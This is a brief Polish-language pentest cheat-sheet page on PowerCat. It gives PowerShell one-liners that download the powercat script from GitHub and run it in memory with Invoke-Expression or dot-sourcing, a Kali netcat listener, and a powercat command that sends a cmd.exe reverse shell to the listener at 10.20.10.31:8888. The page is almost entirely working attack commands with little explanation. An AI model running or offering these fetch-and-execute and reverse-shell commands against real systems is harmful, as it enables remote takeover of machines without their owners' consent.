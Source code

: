 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# PowerCat

**Win**

{% code overflow="wrap" fullWidth="true" %}
```python
#bez zapisywania na dysku
(New-Object System.Net.WewbClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1') | Invoke-Expression

#z zapisywaniem na dysku
Invoke-WebRequest -uri https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1 -OutFile powerCat.ps1

#uruchamianie przy użyciu dot sourcing
. .\powercat.ps1
```
{% endcode %}

**Kali**

```python
nc -nlvp 8888
```

**Win**

```python
#łączymy się z Kalim
powercat -c 10.20.10.31 -p 8888 -e cmd.exe
```
